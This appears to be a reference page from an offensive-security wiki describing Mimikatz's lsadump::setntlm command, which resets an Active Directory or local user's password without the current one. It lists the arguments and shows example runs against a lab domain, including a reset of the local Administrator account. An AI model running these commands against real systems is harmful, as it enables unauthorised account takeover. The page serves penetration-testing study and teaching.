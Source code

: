 # setntlm

`lsadump::setntlm` can be used to perform a password reset without knowing the user's current password. It can be useful during an active directory [Access Control (ACL) abuse](https://www.thehacker.recipes/ad/movement/access-controls) scenario. It has the following command line arguments:

* `/ntlm`: The new NT hash for the target user
* `/user`: The username of the account to target
* `/password`: The new password for the target user
* `/server`: hostname of the target server

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

### Reset for a Domain User

```
mimikatz # lsadump::setntlm /user:optimus /password:VeryStrongPass1! /server:dc.hacklab.local
NTLM         : 7cb0b13a4661116dd2c306fb2f4536b2

Target server: dc.hacklab.local
Target user  : optimus
Domain name  : hacklab
Domain SID   : S-1-5-21-2725560159-1428537199-2260736313
User RID     : 1732

>> Informations are in the target SAM!
```

### Reset for a Local User

```
mimikatz # lsadump::setntlm /user:Administrator /password:Super_SecretPass1! /server:Win10.hacklab.local
NTLM         : b09a14d2d325026f8986d4a874fbcbc7

Target server: Win10.hacklab.local
Target user  : Administrator
Domain name  : WIN10
Domain SID   : S-1-5-21-1604892360-3618202543-1602915806
User RID     : 500

>> Informations are in the target SAM!
```
